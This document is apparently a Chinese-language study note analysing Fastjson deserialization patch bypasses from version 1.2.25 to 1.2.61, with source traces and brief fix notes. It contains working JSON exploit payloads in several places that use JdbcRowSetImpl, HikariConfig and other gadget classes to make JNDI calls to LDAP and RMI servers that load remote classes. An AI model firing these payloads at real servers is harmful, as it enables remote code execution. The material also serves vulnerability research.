

## 1.前言

1.必读，看其中一个就行。

[Java反序列化Fastjson篇03-Fastjson各版本绕过分析](https://drun1baby.github.io/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/)

[Fastjson 1.2.25-1.2.47反序列化漏洞分析](https://xz.aliyun.com/t/9052)

---

## Fastjson 1.2.25 版本是如何修复漏洞的

加了个函数

（**DefaultJSONParser.parseObject().checkAutoType（322行）**），用于黑名单验证。

---

### autoTypeSupport是什么

能够开关 `ParserConfig.checkAutoType()` 的某些代码逻辑。

可在 **ParserConfig.java** 中进行选择开启/关闭

【详情代码查看,有注释：**checkAutoType.java**】


默认情况下autoTypeSupport为False，将其设置为True有两种方法：

- JVM启动参数：`-Dfastjson.parser.autoTypeSupport=true`
- 代码中设置：`ParserConfig.getGlobalInstance().setAutoTypeSupport(true);`，如果有使用非全局ParserConfig则用另外调用`setAutoTypeSupport(true);`

AutoType白名单设置方法：

1. JVM启动参数：`-Dfastjson.parser.autoTypeAccept=com.xx.abc.,com.yy.abc`
2. 代码中设置：`ParserConfig.getGlobalInstance().addAccept("com.xx.a");`
3. 通过**fastjson.properties**文件配置。在1.2.25/1.2.26版本支持通过类路径的fastjson.properties文件来配置，配置方式如下：`fastjson.parser.autoTypeAccept=com.taobao.pac.client.sdk.dataobject.,com.cainiao.`

​											——[Java反序列化Fastjson篇03-Fastjson各版本绕过分析](https://drun1baby.github.io/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/)

## 寻找可用利用链 (重要)

通过对黑名单的研究，我们可以找到具体版本有哪些利用链可以利用。

内置黑白名单：[Fastjson-Blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

---

## 先起环境

【2 Fastjson 1.2.24/JdbcRowSetImpl/EvilObject.class】 放在tomcat服务器上，EvilObject.class用于弹计算器

然后用IDEA运行【2 Fastjson 1.2.24/JdbcRowSetImpl/JNDIRmiServer.java**或**JNDIRmiServer.java】

## 具体绕过手法

### 1.2.25 - 1.2.41 补丁绕过

**AutoTypeSupport = True 才能成功**

绕过原理(只关注核心部分)：

**(fastjson库中直接搜索)**

```java
// 1.2.25版本
ParserConfig.checkAutoType 804
    TypeUtils.loadClass 850 
       TypeUtils.loadClass 1089~1092    
```

`TypeUtils.loadClass` 逻辑没写好，自己跑去看源码。

简而言之：去掉首部的`L`和末尾的`;`后直接返回，并未进行相应处理

【详情代码查看：1.2.25 - 1.2.41.java】

### 1.2.25-1.2.42 补丁绕过

**AutoTypeSupport = True 才能成功**

**双写绕过**

【详情代码查看：1.2.25-1.2.42.java】

### 1.2.25-1.2.43 补丁绕过

**AutoTypeSupport = True 才能成功**

绕过原理(只关注核心部分)：

**(fastjson库中直接搜索)**

```java
// 1.2.43版本

// 1.checkAutoType()函数检测
ParserConfig.checkAutoType 887
    TypeUtils.loadClass  1196~1199
    
// 2.反序列化
DefaultJSONParser.parseArray 674
```

**然并卵**，博客并没说明 `syntax error, expect {, actual string, pos xxxx, fastjson-version 1.2.43` 是怎么触发的。

只说明了`expect [, actual string, pos xxxx, fastjson-version 1.2.43`是怎么触发的**（DefaultJSONParser.parseArray 674触发的）**。

所以我自己进行了调试：




核心关键点在于：**JavaBeanDeserializer.deserialze 403行**，

当payload正确时,不执行IF语句,否则执行IF语句。**核心在于token的值**

token的值涉及 json解析器 的原理，因为不在我们讨论的范围所以忽略不计。

```java
if (token != JSONToken.LBRACE && token != JSONToken.COMMA) {
    ...
}
```

如果执行了IF语句（说明payload正确），就触发了 `syntax error, expect {, actual string, pos xxxx, fastjson-version 1.2.43`

【详情代码查看：1.2.25-1.2.43.java】

---

### 1.2.25-1.2.45补丁绕过

**AutoTypeSupport = True 才能成功**

**前提条件：需要目标服务端存在mybatis的jar包，且版本需为3.x.x系列<3.5.0的版本。**

**本质上是 JNDI注入（RMI,ldap都可以利用）+ Bypass 黑名单**

【详情代码查看：1.2.25-1.2.45.java】

---

### 1.2.25-1.2.47补丁绕过

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport不能利用

- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用

  ​								——[Fastjson 1.2.25-1.2.47反序列化漏洞分析](https://xz.aliyun.com/t/9052#toc-14)

**原理：**

绕过了 `ParserConfig.checkAutoType()`。

通过 java.lang.Class，将JdbcRowSetImpl类加载到Map中缓存，从而绕过AutoType的检测。因此将payload分两次发送，第一次加载，第二次执行。默认情况下，只要遇到没有加载到缓存的类，`checkAutoType()`就会抛出异常终止程序。

​										——[Java反序列化Fastjson篇03-Fastjson各版本绕过分析](https://drun1baby.github.io/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/)

将payload分两次发送：

```java
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1099/EvilObject","autoCommit":true}}
```

---

调试分析**（我这里用的是1.2.47版本）**：

既然原理是绕过了 `ParserConfig.checkAutoType()`，那我们就下断点在 `ParserConfig.checkAutoType()`。

在调用`DefaultJSONParser.parserObject()`函数时，会对JSON数据进行**循环遍历**扫描解析。

**第一次扫描解析**，

进行`checkAutoType()`函数，由于未开启AutoTypeSupport，因此**不会进入**黑白名单校验的逻辑；由于@type执行java.lang.Class类，该类在接下来的`findClass()`函数中直接被找到，并在后面的if判断clazz不为空后直接返回。

**ParserConfig.checkAutoType()：**

```java
// 不执行
if (autoTypeSupport || expectClass != null) {
            ......
        }
		// 不执行
        if (clazz == null) {
            clazz = TypeUtils.getClassFromMapping(typeName);
        }
		// 执行
        if (clazz == null) {
            clazz = deserializers.findClass(typeName);
        }

        if (clazz != null) {
            if (expectClass != null
                    && clazz != java.util.HashMap.class
                    && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }
			// 执行
            return clazz;
        }
```


```java
[1] DefaultJSONParser.parseObject(final Map object, Object fieldName) 384
[2]    MiscCodec.deserialze(DefaultJSONParser parser, Type clazz, Object fieldName) 237
[3]		 MiscCodec.deserialze(DefaultJSONParser parser, Type clazz, Object fieldName) 335
[4]			TypeUtils.loadClass(1,2,3) 1242
```

**[2]** 中判断键是否为”val”，是的话再提取val键对应的值赋给objVal变量，而objVal在后面会赋值给strVal变量

**[3]** 中直接加载 strVal变量

**[4]** 中缓存在Map中


**第二次扫描解析**

```java
[1] ParserConfig.checkAutoType() 948
```

**[1]  ParserConfig.checkAutoType()：**

```java
// 不执行
if (autoTypeSupport || expectClass != null) {
            ......
        }
		// 执行
        if (clazz == null) {
            clazz = TypeUtils.getClassFromMapping(typeName);
        }
		// 不执行
        if (clazz == null) {
            clazz = deserializers.findClass(typeName);
        }

        if (clazz != null) {
            if (expectClass != null
                    && clazz != java.util.HashMap.class
                    && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }
			// 执行
            return clazz;
        }
```

---

**如何修复：**

不给加载到Map即可，缓存开关cache默认设置为了False


【详情代码查看：1.2.25-1.2.47.java】

---

### Fastjson <= 1.2.61 通杀

​																				——[Java反序列化Fastjson篇03-Fastjson各版本绕过分析](https://drun1baby.github.io/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/)

**Fastjson1.2.5 <= 1.2.59**

**需要开启AutoType**

```java
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}
{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

**Fastjson1.2.5 <= 1.2.60**

```java
{"@type":"oracle.jdbc.connector.OracleManagedConnectionFactory","xaDataSourceName":"rmi://10.10.20.166:1099/ExportObject"}

{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"ldap://10.10.20.166:1389/ExportObject"}
```

**Fastjson1.2.5 <= 1.2.61**

```java
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://localhost:1389/Exploi
```

